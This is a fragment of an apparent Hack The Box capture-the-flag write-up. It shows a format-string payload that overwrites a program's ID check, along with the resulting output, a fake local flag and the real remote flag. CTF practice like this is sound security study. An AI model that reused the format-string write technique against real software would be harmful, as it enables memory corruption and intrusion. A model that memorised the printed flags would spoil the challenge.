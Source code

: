```console

Try to deceive it by changing your ID.

>> %7$48879p%7$hn

[!] Checking..                                                                  

// lots of empty space

0x7ffc2dc3bc50
You managed to deceive the robot, here's your new identity: HTB{f4k3_fl4g_4_t35t1ng}
```

The same payload leads to the true flag on remote:

```text
HTB{m45t3r_0f_d3c3pt10n}
```
